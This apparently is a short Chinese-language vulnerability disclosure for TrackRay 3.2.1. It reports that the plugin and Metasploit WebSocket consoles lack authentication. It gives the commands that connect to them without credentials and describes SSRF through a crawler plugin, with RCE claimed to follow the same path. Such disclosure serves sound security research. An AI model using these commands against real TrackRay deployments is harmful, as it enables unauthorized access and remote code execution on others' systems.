






# 溯光（TrackRay）3.2.1 未授权RCE

## Target & Version
项目地址：https://github.com/iSafeBlue/TrackRay  

版本：v3.2.1

## Background
扫github的时候看到的这个项目，虽然有900+个 stars，感觉不咋火。
其中首页注意中的一句话吸引了我  


本着日行一善的原则，决定帮它火一把。

## Exp
TrackRay的两个交互式控制台，用WebSocket实现

WebSocket未做任何授权认证，所以这两个console就是白给。利用方式很简单
exp：
```
# 安装websockets
pip3 install websockets
# 连接 plugin console
python3 -m websockets ws://[ip]:[port]/plugin.ws
# 连接 msf consle
python3 -m websockets ws://[ip]:[port]/msf.ws
```

## Poc
由于我的msfrpcd始终没有配置成功，这里就懒得折腾，演示一个利用 plugin console 实现未授权ssrf的效果，rce也是一样，不过连的是 msf console：
连接 plugin consle


寻找所有可用插件，使用默认提供的crawlergoScan


ssrf





